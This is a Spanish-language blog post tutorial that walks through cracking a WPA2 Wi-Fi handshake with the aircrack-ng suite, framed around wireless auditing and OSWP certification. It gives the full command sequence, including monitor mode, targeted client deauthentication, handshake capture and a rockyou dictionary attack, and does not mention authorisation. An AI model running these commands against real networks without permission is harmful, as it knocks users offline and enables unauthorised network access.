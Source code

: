 ```yaml
---
layout: post
title:  "Hacking Wifi (cracking Handshake)"
author: erik
categories: [ Wifi ]
image: https://user-images.githubusercontent.com/47476901/132572928-786e2463-ba7a-460d-8195-6fab060b7f78.png
beforetoc: ""
toc: false
tags: [ Wifi ]
---
```

Crackeando el Handshake 

# Table of Contents
1. [Interface Configuration](#interfaces)
2. [Detener los procesos](#detenerprocesos)
3. [Modo monitor](#monitormode)
4. [Redes Wifi cercanas](#wificonnections)
5. [Ver los clientes conectados a la red](#clients)
6. [Deautenticacion Dirigido](#deautenticacion)
7. [Descifrar la contraseña](#descifrarpassword)
8. [Adaptadores para auditoria wifi](#adaptadores)

---

### 1- Ifconfig (Interface Configuration) <a name="interfaces"></a>
![ifconfig](https://user-images.githubusercontent.com/47476901/132572799-6168d979-07c5-4dee-a167-24d62fc5abe2.png)
- **eth0**: Ethernet Interface
- **l0**: Loopback Interface
- **wlan0**: Wireless network interface.

### 2- Detener los procesos activos que se están usando: <a name="detenerprocesos"></a>

```md
airmon-ng check kill
```
![airmonkill](https://user-images.githubusercontent.com/47476901/132572813-42ed54c0-cbe9-44b8-b2f4-194dcc86afbe.png)

### 3- Iniciar el modo monitor en wlan0. <a name="monitormode"></a>

```md
airmon-ng start wlan0
```
![startwlan0](https://user-images.githubusercontent.com/47476901/132572832-a7c85f74-df34-4842-b17e-44f802ba4acd.png)

### 4- Ver todas las redes wifi cerca de ti. <a name="wificonnections"></a>

```md
airodump-ng wlan0
```
Con el comando airodump-ng wlan0 podemos hacer una visual de todos los paquetes que estan viajando en tiempo real

![airodump](https://user-images.githubusercontent.com/47476901/132572839-f43de30b-ddd4-4aca-a65d-280ce3b9bac6.png)

Identificar al objetivo:

![objetive](https://user-images.githubusercontent.com/47476901/132572844-402edfa2-89d2-425d-9f13-045547856723.png)

### 5- Ver los clientes conectados a la red de destino. <a name="clients"></a>

Empezariamos usando airodump-ng y vamos filtrando a nuestro gusto.
Podemos observar que hay un cliente conectado.

![clients](https://user-images.githubusercontent.com/47476901/132572850-0a106579-fc25-4e5d-90af-4845caa6a5ea.png)

```md
airodump-ng --bssid 66:FB:F4:F6:38:9A wlan0 -w captura -c 1
```
- **-- bssid**: Es "66:FB:F4:F6:38:9A" 
- **wlan0**: Mi tarjeta de red monitorizada es wlan0
- **-w captura**: Será el archivo en el que se escribirán los datos
-  **-c 1**: Está en el canal 1 de esta forma lo indicamos "-c 1"  





### 6- Deautenticacion Dirigido. <a name="deautenticacion"></a>
Desconectar a los clientes conectados a la red.
Cuando el cliente intente volver a conectarse a la red podremos empezar a crackear la contraseña ya que tendremos el paquete necesario.

![disconnect_clients](https://user-images.githubusercontent.com/47476901/132572858-40057c38-7ab7-4e77-b3b9-d1a51c369871.png)

```md
aireplay-ng -0 10 -a 66:FB:F4:F6:38:9A wlan0
```

- **-0**: Para la desautenticacion
- **10**: Número de paquetes de desautenticacion que se enviarán
- **-a**: El BSSID de la red de destino.
- **wlan0**: Nombre de la interfaz



### 7-  Descifrar la contraseña <a name="descifrarpassword"></a>

![decrypt](https://user-images.githubusercontent.com/47476901/132572876-088d3181-09dc-447b-8213-749d148ad800.gif)

```md
aircrack-ng -a2 -b  66:FB:F4:F6:38:9A -w /usr/share/wordlists/rockyou.txt captura-01.cap
```

- **-a**: -a2 para WPA2 y -a para WPA.
- **-b**: el BSSID de la red de destino.
- **-w /usr/share/wordlists/rockyou.txt**: es el diccionario de las contraseñas que usaremos.
- **captura-01.cap**: es el archivo que necesitamos ya que es donde están todos los paquetes que hemos interceptado

Finalmente obtenemos la contraseña:

![password](https://user-images.githubusercontent.com/47476901/132588909-138e4344-51cc-4172-827f-98a569313782.png)

## Adaptadores para auditoria wifi <a name="adaptadores"></a>
Recomiendo los adaptores de Alpha Network, son de muy buena calidad y estan enfocados para este tipo de uso.
He usado el AWUS036ACH funciona a la perfeccion y tiene bastante potencia. 100% recomendable para la certificacion <a href="https://www.offensive-security.com/wifu-oswp/" target="_blank">OSWP</a>

![adaptador](https://user-images.githubusercontent.com/47476901/150223892-27e6ec82-079c-4dfc-b0dc-ee534b67ee37.png)


Link de la pagina oficial donde se pueden adquirir estos adaptadores.
- <a href="https://alfa-network.eu/wi-fi/wi-fi-adapters?product_list_order=price&product_list_dir=desc" target="_blank">Alpha Network</a>

Si tiene algun problema al instalar los drivers puede ver el siguiente post donde explica como solucionar los problemas mas comunes al realizar dicha instalacion.
- <a href="https://b3nj1-1.github.io/blog/wifi/2022/01/17/WIFI/" target="_blank">Install Drivers Solution</a>
